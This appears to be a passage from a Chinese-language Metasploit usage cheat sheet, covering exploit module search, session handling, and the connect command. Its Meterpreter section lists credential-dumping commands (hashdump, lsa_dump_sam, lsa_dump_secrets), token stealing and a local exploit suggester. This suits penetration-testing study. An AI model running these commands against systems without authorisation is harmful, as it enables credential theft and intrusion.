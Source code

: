 ```shell
# type: 指定查找模块类型
# platform ：模块使用的平台
# cve : 指定 模块的 CVE 年份
# rank ： 可靠等级
search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

## 四、MSF sessions

### 1. 会话

```shell
sessions # 展示所有会话
sessions -i no # 打开指定会话
```

### 2. Meterpreter

```shell
steal_token 1836 # 迁移进程

# 下方模板是用来自动检测指定会话上可以使用的漏洞， 他可以查出很多漏洞，当有多个可执行时，需要一个一个验证
use post/multi/recon/local_exploit_suggester

# 转储哈希
hashdump
lsa_dump_sam

# Meterpreter LSA 机密转储
lsa_dump_secrets
```



## 五、基本使用

### 1. 核心命令

1. conect 命令：
	connect 的命令主要用于远程连接主机，一般用于内网渗透

	![image-20220806160049648](../.gitbook/assets/20220806160049.png)
